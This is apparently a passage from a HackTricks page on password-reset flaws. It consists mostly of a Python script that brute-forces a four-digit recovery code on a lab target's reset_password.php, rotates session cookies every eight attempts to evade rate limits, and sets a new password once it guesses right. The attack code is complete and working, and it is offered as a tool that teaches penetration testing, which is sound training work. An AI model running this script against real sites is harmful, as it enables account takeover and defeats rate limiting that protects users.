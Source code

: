         headers = {
            "User-Agent": "Mozilla/5.0 (iPhone14,3; U; CPU iPhone OS 15_0 like Mac OS X) AppleWebKit/602.1.50 (KHTML, like Gecko) Version/10.0 Mobile/19A346 Safari/602.1",
            "Cookie": "PHPSESSID=mrerfjsol4t2ags5ihvvb632ea"
        }
        url = "http://10.10.12.231:1337/reset_password.php"
        logout = "http://10.10.12.231:1337/logout.php"
        root = "http://10.10.12.231:1337/"
        
        parms = dict()
        ter = 0
        phpsessid = ""
        
        print("[+] Starting attack!")
        sleep(3)
        print("[+] This might take around 5 minutes to finish!")
        
        try:
                while True:
                        parms["recovery_code"] = f"{random.randint(0, 9999):04}" # random number from 0 - 9999 with 4 d
                        parms["s"] = 164 # not important it only efects the frontend
                        res = requests.post(url, data=parms, allow_redirects=True, verify=False, headers=headers)
        
                        if ter == 8: # follow number of trails
                                out = requests.get(logout,headers=headers) # log u out 
                                mainp = requests.get(root) # gets another phpssid (token)
        
                                cookies = out.cookies # extract the sessionid 
                                phpsessid = cookies.get('PHPSESSID')
                                headers["cookies"]=f"PHPSESSID={phpsessid}" #update the headers with new session
        
                                reset = requests.post(url, data={"email":"tester@hammer.thm"}, allow_redirects=True, verify=False, headers=headers) # sends the email to change the password for
                                ter = 0 # reset ter so we get a new session after 8 trails
                        else:
                                ter += 1
                                if(len(res.text) == 2292): # this is the length of the page when u get the recovery code correctly (got by testing)
                                        print(len(res.text)) # for debug info
                                        print(phpsessid) 
        
                                        reset_data = { # here we will change the password to somthing new 
                                        "new_password": "D37djkamd!",
                                        "confirm_password": "D37djkamd!"
                                        }
                                        reset2 = requests.post(url, data=reset_data, allow_redirects=True, verify=False, headers=headers)
        
                                        print("[+] Password has been changed to:D37djkamd!")
                                        break 
        except Exception as e:
                print("[+] Attck stopped")
      ```

## References

- [https://anugrahsr.github.io/posts/10-Password-reset-flaws/#10-try-using-your-token](https://anugrahsr.github.io/posts/10-Password-reset-flaws/#10-try-using-your-token)

{{#include ../banners/hacktricks-training.md}}



